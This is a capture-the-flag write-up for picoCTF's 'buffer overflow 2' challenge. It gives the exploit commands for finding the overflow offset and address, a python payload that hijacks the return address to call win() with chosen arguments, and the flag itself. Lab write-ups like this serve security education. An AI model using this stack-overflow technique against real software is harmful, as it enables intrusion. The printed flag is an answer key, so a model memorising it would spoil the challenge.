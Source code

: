 # buffer overflow 2
Binary Exploitation - 250 points

## Challenge 
> Alright, this time you'll need to control some arguments. Can you get the flag from this [program](vuln)? You can find it in /problems/buffer-overflow-2_4_ca1cb0da49310dd45c811348a235d257 on the shell server. 

[Source.](vuln.c)

## Hint
> 

## Solution

#### Find Offset
	$ pwn cyclic 200 | strace ./vuln
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x62616164} ---
	+++ killed by SIGSEGV +++
	Segmentation fault
	
	$ pwn cyclic -l 0x62616164
	112

#### Get addresses

	(gdb) b win
	Breakpoint 1 at 0x80485d1


`win     \xcb\x85\x04\x08`


---

#### Form payload

https://ucsd-progsys.github.io/131-web/static/img/stack-layout.png

The final format will be as follows:

	[112 bytes offset] + [return address towards win()] + [return address of win()] + [param1] + [param2]

Execute

	$ python -c 'print "\x00"*112 + "\xcb\x85\x04\x08" + "junk" + ("\xEF\xBE\xAD\xDE" + "\xDE\xC0\xAD\xDE")' | ./vuln 
	Please enter your string: 

	picoCTF{addr3ss3s_ar3_3asy30723282}Segmentation fault


## Flag

	picoCTF{addr3ss3s_ar3_3asy30723282}
